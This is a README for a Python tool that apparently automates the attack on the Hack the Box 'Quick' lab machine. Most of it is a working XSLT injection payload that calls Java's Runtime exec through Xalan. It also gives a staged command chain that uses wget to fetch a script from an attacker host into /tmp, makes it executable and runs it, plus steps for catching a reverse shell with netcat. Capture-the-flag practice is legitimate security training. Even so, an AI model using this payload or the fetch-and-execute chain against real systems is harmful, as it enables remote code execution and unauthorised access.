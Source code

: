 # QuickShell
Python script demonstrating the attack used for the Quick machine from Hack the Box

> You will need to first obtain the correct email address and password in order to successfully use this script

### Setup
1. Obtain the correct email address and password
2. Create 3 files in the same directory as QuickShell.py named stage1,2,3.xsl. These files will contain a series of bash commands.
3. Run a netcat listener on a port of your choice and have that up and running.
4. Run a python http server in the same folder as the xsl files.
5. Run QuickShell.py and wait for callback to the stage xsl files which will return a reverse shell.

### Example xsl file
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[PUT YOUR COMMANDS HERE]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```

### Working Series of Commands
STAGE 1: `wget http://ip:port/rce.sh -O /tmp/rce.sh`

STAGE 2: `chmod +x /tmp/rce.sh`

STAGE 3: `/tmp/rce.sh`
